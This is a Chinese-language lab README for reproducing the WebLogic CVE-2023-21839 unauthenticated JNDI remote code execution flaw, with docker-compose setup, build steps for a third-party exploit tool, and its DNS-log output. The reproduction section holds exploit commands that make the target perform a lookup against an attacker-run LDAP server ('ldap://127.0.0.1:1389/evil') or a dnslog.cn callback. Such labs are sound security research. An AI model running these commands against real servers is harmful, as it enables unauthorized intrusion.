

# Weblogic未授权远程代码执行漏洞 (CVE-2023-21839)

Oracle WebLogic Server是业界领先的应用程序服务器，用于使用Java EE标准构建企业应用程序，并以低拥有成本将其部署在可靠、可扩展的运行时。

在 [Oracle 2023年1月安全公告日](https://www.oracle.com/security-alerts/cpujan2023.html) 修复了这个漏洞。

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞

参考:

- https://www.oracle.com/security-alerts/cpujan2023.html

## 环境设置

执行以下命令启动 Weblogic server 12.2.1.3

```
docker-compose up -d
```

启动完成后访问`http://your-ip:7001/console`可以看到管理界面

## 复现

https://github.com/4ra1n/CVE-2023-21839

```shell
cd cmd
go build -o CVE-2023-21839
./CVE-2023-21839 -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

Windows

```shell
cd cmd
go build -o CVE-2023-21839.exe
CVE-2023-21839.exe -ip 127.0.0.1 -port 7001 -ldap ldap://127.0.0.1:1389/evil
```

DNS Log

```shell
CVE-2023-21839.exe -ip 192.168.25.129 -port 7001 -ldap ldap://kmi896.dnslog.cn/test
[*] your-ip: 192.168.25.129
[*] your-port: 7001
[*] your-ldap: ldap://kmi896.dnslog.cn/test
[*] weblogic 12
[*] id=2 LocateRequest
[*] id=3 RebindRequest
[*] id=4 RebindRequest
[*] id=5 LocateRequest
[*] id=6 ResolveRequest
[*] id=7 ResolveRequest
```


